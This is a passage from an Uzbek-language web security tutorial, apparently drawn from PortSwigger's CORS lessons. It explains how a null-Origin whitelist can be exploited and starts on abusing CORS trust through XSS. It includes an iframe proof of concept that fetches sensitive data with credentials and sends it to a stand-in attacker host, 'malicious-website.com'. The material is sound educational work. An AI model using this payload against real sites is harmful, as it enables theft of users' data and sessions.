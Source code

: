 Ba'zi web saytlar lokal holatdagi web saytning versiyasidan foydalanish maqsadida null qiymatini ishlatishi mumkin. Misol uchun web sayt mana bunday cross-origin request ni qabul qilgan bo'lsa:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

server mana bunday javob qaytardi:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Ushbu holatda Haker har xil xiylalarni o'ylab topib null qiymatini Origin headerga qo'shgan holda so'rovlarni yasashi mumkin. Bu esa white listga kirishiga va cross-domain request larni amalga oshirishga sabab bo'ladi. Misol uchun bu quyida keltirilgan iframe li so'rovda ko'rilishi mumkin:

```html
<script>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Ishonchli null orign bilan CORS zaifligi ≫](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
{% endhint %}

## <mark style="color:yellow;">CORS ishonch aloqalari orqali</mark> [<mark style="color:yellow;">XSS hujumini</mark>](../xss/xss-zaifliklarini-exploit-qilish.md) <mark style="color:yellow;">qilish</mark> <a href="#cors-ishonilgan-munosabatlar-orqali-xss-ni-exploit-qilish" id="cors-ishonilgan-munosabatlar-orqali-xss-ni-exploit-qilish"></a>

Hatto "to'g'ri" sozlangan CORS ikkita manba o'rtasida ishonch aloqalarini  o'rnatadki. Agar web sayt XSS ga zaif bo'lgan manbaga ishonsa, unda Haker CORSni ishga solgan holda JavaScript ineksiya hamda XSS xujumlarini amalga oshirishi mumkin.

Quyidagi requestga e'tibor bering:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
